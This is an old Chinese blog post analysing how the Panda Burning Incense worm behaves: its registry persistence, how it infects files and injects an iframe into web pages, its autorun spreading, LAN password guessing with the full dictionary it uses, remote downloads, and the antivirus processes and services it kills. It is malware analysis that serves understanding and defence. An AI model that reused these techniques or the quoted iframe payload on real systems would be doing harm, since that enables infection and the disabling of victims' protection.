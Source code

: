 ```yaml
---
author: amosk
comments: true
date: 2007-06-22 06:36:24+00:00
layout: post
slug: '44'
title: 熊猫烧香原理
wordpress_id: 44
categories:
- Computer
- Web
---
```


今天下了一个Dephli(带注册机)安装程序和基础教程Pdf,顺便了解了一下熊猫烧香^_^(原代码居然贴不到博客里,强!不过网上随便就可以搜到)

毒名称：Worm.WhBoy.h
病毒中文名：熊猫烧香(武汉男生)

病毒类型：蠕虫

危险级别：★★★★★

影响平台：Win 9x/ME,Win 2000/NT,Win XP,Win 2003

病毒描述：

“武汉男生”，俗称“熊猫烧香”，这是一个感染型的蠕虫病毒，它能感染系统中exe，com，pif，src，html，asp等文件，它还能中止大量的反病毒软件进程并且会删除扩展名为gho的文件，该文件是一系统备份工具GHOST的备份文件，使用户的系统备份文件丢失。被感染的用户系统中所有.exe可执行文件全部被改成熊猫举着三根香的模样。

<!-- more -->

1:拷贝文件

病毒运行后,会把自己拷贝到C:\WINDOWS\System32\Drivers\spoclsv.exe

2:添加注册表自启动

病毒会添加自启动项HKEY_CURRENT_USER\Software\Microsoft\Windows\
CurrentVersion\Run svcshare -> C:\WINDOWS\System32\Drivers\spoclsv.exe

3:病毒行为

a:每隔1秒寻找桌面窗口,并关闭窗口标题中含有以下字符的程序：

QQKav、QQAV、防火墙、进程、VirusScan、网镖、杀毒、毒霸、瑞星、江民、黄山IE、超级兔子、优化大师、木马克星、木马清道夫、QQ病毒、注册表编辑器、系统配置实用程序、卡巴斯基反病毒、Symantec AntiVirus、Duba、esteem proces、绿鹰PC、密码防盗、噬菌体、木马辅助查找器、System Safety Monitor、Wrapped gift Killer、Winsock Expert、游戏木马检测大师、msctls_statusbar32、pjf(ustc)、IceSword

并使用的键盘映射的方法关闭安全软件IceSword

添加注册表使自己自启动 HKEY_CURRENT_USER\Software\Microsoft\Windows\
CurrentVersion\Run svcshare -> C:\WINDOWS\System32\Drivers\spoclsv.exe

并中止系统中以下的进程:

Mcshield.exe、VsTskMgr.exe、naPrdMgr.exe、UpdaterUI.exe、TBMon.exe、scan32.exe、Ravmond.exe、CCenter.exe、RavTask.exe、Rav.exe、Ravmon.exe、RavmonD.exe、RavStub.exe、KVXP.kxp、kvMonXP.kxp、KVCenter.kxp、KVSrvXP.exe、KRegEx.exe、UIHost.exe、TrojDie.kxp、FrogAgent.exe、Logo1_.exe、Logo_1.exe、Rundl132.exe

b:每隔18秒点击病毒作者指定的网页,并用命令行检查系统中是否存在共享，共存在的话就运行net share命令关闭admin$共享

c:每隔10秒下载病毒作者指定的文件,并用命令行检查系统中是否存在共享，共存在的话就运行net share命令关闭admin$共享

d:每隔6秒删除安全软件在注册表中的键值

并修改以下值不显示隐藏文件 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL CheckedValue -> 0x00

删除以下服务:

navapsvc、wscsvc、KPfwSvc、SNDSrvc、ccProxy、ccEvtMgr、ccSetMgr、SPBBCSvc、Symantec Core LC、NPFMntor MskService、FireSvc

e:感染文件

病毒会感染扩展名为exe,pif,com,src的文件,把自己附加到文件的头部，并在扩展名为htm,html, asp,php,jsp,aspx的文件中添加一网址，用户一但打开了该文件，IE就会不断的在后台点击写入的网址，达到增加点击量的目的,但病毒不会感染以下文件夹名中的文件：

WINDOW、Winnt、System Volume Information、Recycled、Windows NT、WindowsUpdate、Windows Media Player、Outlook Express、Internet Explorer、NetMeeting、Common Files、ComPlus Applications、Messenger、InstallShield Installation Information、MSN、Microsoft Frontpage、Movie Maker、MSN Gamin Zone

g:删除文件

病毒会删除扩展名为gho的文件，该文件是一系统备份工具GHOST的备份文件使用户的系统备份文件丢失。

=================================

是一个传染型的DownLoad 使用Delphi编写
该病毒的主要行为:
一.传播
1.本地磁盘感染
病毒对系统中所有除了盘符为A,B的磁盘类型为DRIVE_REMOTE,DRIVE_FIXED的磁盘进行
文件遍历感染注:不感染文件大小超过10485760字节以上的.
(病毒将不感染如下目录的文件):
Microsoft Frontpage
Movie Maker
MSN Gamin Zone
Common Files
Windows NT
Recycled
System Volume Information
Documents and Settings
....
(病毒将不感染文件名如下的文件):
setup.exe
NTDETECT.COM
病毒将使用两类感染方式应对不同后缀的文件名进行感染
1.二进制可执行文件(后缀后为:EXE,SCR,PIF,COM)
将感染目标文件和病毒溶合成一个文件(被感染文件贴在病毒文件尾部)完成感染.
2.脚本类(后缀名为:htm,html,asp,php,jsp,aspx)
在这些脚本文件尾加上如下链接(下边的页面存在安全漏洞):

    <iframe src=http://www.krvkr.com/worm.htm width=height=0></iframe>

在感染时会删除这些磁盘上的后缀名为.GHO
2.生成autorun.inf
病毒建立一个计时器以,6秒为周期在磁盘的根目录下生成
setup.exe(病毒本身) autorun.inf 并利用AutoRun Open关联
使病毒在用户点击被感染磁盘时能被自动运行.
3.局域网传播
病毒生成随机几个局域网传播线程实现如下的传播方式:
当病毒发现能成功联接攻击目标的139或445端口后,将使用内置的一个用户列表及密码字典
进行联接.(猜测被攻击端的密码)当成功的联接上以后将自己复制过去并利用计划任务
启动激活病毒.
被尝试猜测密码的账户号为:
    Administrator
    Guest
    admin
    Root
用来进行密码尝试的字典为:
    1234
    password
    6969
    harley
    123456
    golf
    pussy
    mustang
    1111
    shadow
    1313
    fish
    5150
    7777
    qwerty
    baseball
    2112
    letmein
    mein
    12345678
    12345
    admin
    5201314
    qq520
    1234567
    123456789
    654321
    54321
    000000
    11111111
    88888888
    pass
    passwd
    database
    abcd
    abc123
    sybase
    123qwe
    server
    computer
    super
    123asd
    ihavenopass
    godblessyou
    enable
    2002
    2003
    2600
    alpha
    111111
    121212
    123123
    1234qwer
    123abc
    patrick
    administrator
    ator
    root
    fuckyou
    fuck
    test
    test123
    temp
    temp123
    asdf
    qwer
    yxcv
    zxcv
    home
    owner
    login
    Login
    pw123
    love
    mypc
    mypc123
    admin123
    mypass
    mypass123
    901100
二.修改操作系统的启动关联
病毒会将自己复制到%SYSTEM32%\DRIVERS\目录下文件名为:spcolsv.exe将以
1秒钟为周期不断设置如下键值:
    HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    svcshare=%病毒文件路径%
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
    \CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL
    CheckedValue=0
三.下载文件启动
病毒会以20分钟为周期尝试读取特定网站上的下载文件列表
如:http://wangma.9966.org/down.txt
并根据文件列表指定的文件下载,并启动这些程序.
四.与杀毒软件对抗
1.关闭包含以下字符串的窗口：
    防火墙
    VirusScan
    NOD32
    网镖
    杀毒
    毒霸
    瑞星
    超级兔子
    优化大师
    大师
    木马清道夫
    木馬清道夫
    卡巴斯基反病毒
    Symantec AntiVirus
    Duba
    esteem procs
    绿鹰PC
    密码防盗
    噬菌体
    木马辅助查找器
    System Safety Monitor
    Wrapped gift Killer
    Winsock Expert
    游戏木马检测大师
    超级巡警
    IceSword
    2.结束以下进程：
    Mcshield.exe
    VsTskMgr.exe
    naPrdMgr.exe
    UpdaterUI.exe
    TBMon.exe
    scan32.exe
    Ravmond.exe
    CCenter.exe
    RavTask.exe
    Rav.exe
    Ravmon.exe
    RavmonD.exe
    RavStub.exe
    KVXP.kxp
    KvMonXP.kxp
    KVCenter.kxp
    KVSrvXP.exe
    KRegEx.exe
    UIHost.exe
    TrojDie.kxp
    FrogAgent.exe
    Logo1_.exe
    Logo_1.exe
    Rundl132.exe
    regedit.exe
    msconfig.exe
    taskmgr.exe
    3.关闭并删除以下服务：
    Schedule
    sharedaccess
    RsCCenter
    RsRavMon
    RsCCenter
    KVWSC
    KVSrvXP
    kavsvc
    AVP
    McAfeeFramework
    McShield
    McTaskManager
    navapsvc
    wscsvc
    KPfwSvc
    SNDSrvc
    ccProxy
    ccEvtMgr
    ccSetMgr
    SPBBCSvc
    Symantec Core LC
    NPFMntor
    MskService
    FireSvc
注:
因为该病毒会感染系统的htm,html,asp,php,jsp,aspx等文件,并在其中加入有利用安全漏洞进行
病毒传播的链接.如果一台服务器被感染将大大增加病毒传播的范围.

参考资料:[http://hi.baidu.com/bingduking/blog/item/8d2b9c44f443804c510ffeb0.html](http://hi.baidu.com/bingduking/blog/item/8d2b9c44f443804c510ffeb0.html)

[http://www.stubhub.com/mlb-tickets/](http://www.stubhub.com/mlb-tickets/)
